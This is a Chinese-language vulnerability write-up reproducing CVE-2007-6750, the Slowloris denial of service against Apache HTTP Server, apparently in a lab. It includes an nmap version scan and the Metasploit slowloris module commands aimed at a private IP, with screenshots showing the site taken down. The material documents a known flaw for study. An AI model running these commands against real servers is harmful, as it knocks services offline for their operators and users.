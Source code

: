 ```yaml
---
title: （CVE-2007-6750）Apache ddos
id: zhfly2807
---
```


# （CVE-2007-6750）Apache ddos

## 一、漏洞简介

Apache HTTP服务器1.x和2.x允许远程攻击者通过部分HTTP请求导致拒绝服务(守护进程中断)，如Slowloris所示，这与2.2.15之前版本中缺少mod_ReqTimeout模块有关

## 二、漏洞影响

Apache 1.x/2.x

## 三、复现过程

nmap -sV -p80 192.168.146.175(用nmap查看Apache版本)(Apache2.2.3初步断定存在漏洞)

![image](../img/9098fb5fb2b8754f5261a20615bbe87f.png)

接着访问网站查看是否正常(发现网站正常)

![image](../img/3e621796f37b1a45ce66c953ef8ee2f9.png)

```
msfconsole(启动metasploit)

use auxiliary/dos/http/slowloris(使用模块)

set RHOST 192.168.146.175(设置目标IP) `run(执行攻击)` 
```

![image](../img/0144c3ee21d34732e60cb05f0f7bc3b8.png)

再访问网站查看是否正常(发现网站瘫痪)

![image](../img/62f2d0d26048b562531c161ede93453b.png)

## 四、参考链接

> https://www.jsxlo.com/cve-2007-6750/